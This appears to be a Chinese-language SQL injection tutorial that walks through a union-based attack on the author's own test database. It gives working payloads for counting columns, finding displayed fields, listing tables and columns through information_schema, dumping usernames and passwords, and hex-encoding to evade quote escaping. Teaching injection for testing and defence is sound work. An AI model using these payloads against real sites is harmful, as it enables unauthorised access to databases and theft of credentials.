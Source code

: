 ### 1、在一条sql语句中，执行多条查询
```yaml
UNION操作符选取不重复的值。如果允许重复的值，请使用UNION ALL
渗透大多数情况，使用UNION ALL
```
```sql
SELECT id,username FROM `user` WHERE id = 1 
union all 
SELECT id,username FROM `user` WHERE id = 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_10.png)
### 2、information_schema数据库中有三个表非常重要
```yaml
1.schemata:表里包含所有数据库的名字 
2.tables:表里包含所有数据库的所有的表，默认字段为table_name 
3.columns:三个列非常重要
    TABLE_SCHEMA:数据库名 
    TABLE_NAME:表名
    COLUMN_NAME:字段名
```
### 3、联合注入的过程1：
#### 使用order by判断注入点，联合查询的多条语句，列数必须一致
#### 3.1 首先要了解order by，排序
```sql
# 以第一列id为基础，进行排序
SELECT id,username FROM `user` ORDER BY 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_11.png)
```sql
# 以第二列，username为基础，进行排序
SELECT id,username FROM `user` ORDER BY 2;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_12.png)
```sql
# 以第三列进行排序，报错
SELECT id,username FROM `user` ORDER BY 3;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_13.png)
#### 3.2 通过上面order by的方式，来判断sql语句返回的数据，有多少列
```sql
1' order by 12 #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_14.png)
```sql
select * from user where username='1' order by 13 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_15.png)
```yaml
通过以上数据可以证明，需要渗透的数据库表格中，一共有12列
```
### 4、联合注入的过程2：
### 判断是整型还是字符型
```yaml
判断是整形还是字符型，参考sql注入的2，3号文档
```
### 5、联合注入的过程3:
### 判断显示位，就是哪一列在前端进行了展示
#### 5.1 通过上面的举例，可以看出，一共有12列，那么，可以通过union all，来判断哪几位展示给了前端
```sql
1' union all select 1,2,3,4,5,6,7,8,9,10,11,12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_16.png)
```sql
select * from user where username='1' union all select 1,2,3,4,5,6,7,8,9,10,11,12 #';
```
![image](https://github.com/498946975/Security/blob/master/images/sql_17.png)

### 6、联合注入的过程4:
### 获取数据库的名称,和数据库版本
#### 6.1 通过以上的数据，在第二列和第11列，输入函数，显示对应的信息
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_18.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_19.png)

### 7、联合注入的过程5:
### 巧妙使用group_concat(table_name)函数，获取所有表的名称
### group_concat：把同一列的，多行，拼接到一起
#### 7.1 把所有的table_name拼接起来，在第11列进行展示
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi'  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_20.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi' #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_21.png)
### 8、联合注入的过程6:
### 使用column_name，查询某一个表的，所有列的名称
#### 8.1 通过以上的数据，可以查到，有个表叫user，下面查询，user这个表的所有列的名称
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,column_name,12  from information_schema.columns where table_schema = 'test_fastapi' and table_name = 'user' #
```
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,column_name,12 from information_schema.columns where table_schema = 'test_fastapi' and table_name = 'user' #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_24.png)
##### 如果单引号被转译了，可以用16进制来替代单引号
```yaml
user的16进制：0x75736572
```

### 9、联合注入的过程7:
### 查询user表的用户名和密码
```sql
1' union all select 1,username,3,4,5,6,7,8,9,10,pwd,12 from user #
```
```sql
select * from user where username='1' union all select 1,username,3,4,5,6,7,8,9,10,pwd,12 from user #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_25.png)
